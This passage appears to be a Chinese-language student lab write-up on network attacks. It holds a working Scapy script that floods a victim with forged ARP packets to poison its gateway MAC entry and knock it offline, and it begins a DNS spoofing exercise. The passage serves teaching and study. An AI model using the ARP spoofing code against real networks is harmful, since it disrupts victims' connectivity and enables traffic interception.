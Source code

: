 ![image-20220306194255884](https://gitee.com/Hijack8/tc/raw/master/img2/image-20220306194255884.png)

依次改变图中的属性值：

```python
from scapy.all import *
import time
#构造一个Ether以太网协议封装的ARP包
arp0 = Ether(src = '00:0c:29:65:75:02',
             dst = 'ff:ff:ff:ff:ff:ff')/
			 ARP(hwsrc = '00:0c:29:65:75:02', 
                 psrc = '192.168.153.2',
                 pdst = '192.168.153.128',
                 hwdst = '00:0c:29:dd:b6:f3',
                 hwlen = 6, 
                 plen = 4)
#arp0.show()
#每隔一秒向受害机发一个包
while 1 :
    sendp(arp0)
    time.sleep(1)
```

观察结果：

这是正常的网关MAC

![image-20220306202056321](https://gitee.com/Hijack8/tc/raw/master/img2/image-20220306202056321.png)

这是攻击后的网关MAC，可以看到网关的MAC变成了自己主机的MAC。

![image-20220306202627758](https://gitee.com/Hijack8/tc/raw/master/img2/image-20220306202627758.png)

并且受害者主机也没法上网了。。。

![image-20220306202754953](https://gitee.com/Hijack8/tc/raw/master/img2/image-20220306202754953.png)

#### （2）使用scapy在Linux下写程序来模拟完成一个简单的DNS欺骗。

#### 完整的攻击实现工作量和难度都很大。为了降低难度，可以不实现中间人攻击，而是直接让受害者把DNS服务器修改为欺骗者的地址。

 构造DNS欺骗数据包，将baidu.com地址解析为1.1.1.1。

先观察生成DNS包的数据条目：

```python
from scapy.all import *

dns0 = IP()/UDP()/DNS()

dns0.show()
```

![image-20220306203142247](https://gitee.com/Hijack8/tc/raw/master/img2/image-20220306203142247.png)
